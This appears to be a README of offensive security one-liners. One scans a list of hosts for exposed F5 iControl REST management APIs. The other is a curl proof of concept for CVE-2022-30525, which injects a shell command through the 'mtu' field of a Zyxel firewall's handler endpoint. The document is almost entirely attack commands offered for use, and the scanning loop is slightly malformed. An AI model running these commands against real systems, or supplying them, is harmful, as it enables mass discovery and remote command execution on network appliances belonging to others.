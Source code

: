 # oneliner</br>
F5
</br>
cat hosts | while read host do; do curl -sk "https://$host/mgmt/shared/authn/login" | grep -q 'resterrorresponse' && printf "$host \0331;41mF5 iControl REST API Exposed\e[0m\n"; done
</br>

CVE-2022-30525
</br>
curl -v --insecure -X POST -H "Content-Type: application/json" -d
'{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged"
:"1","vlanid":"5","mtu":"; ping 192.168.1.220;","data":"hi"}'
https://192.168.1.1/ztp/cgi-bin/handler
</br>
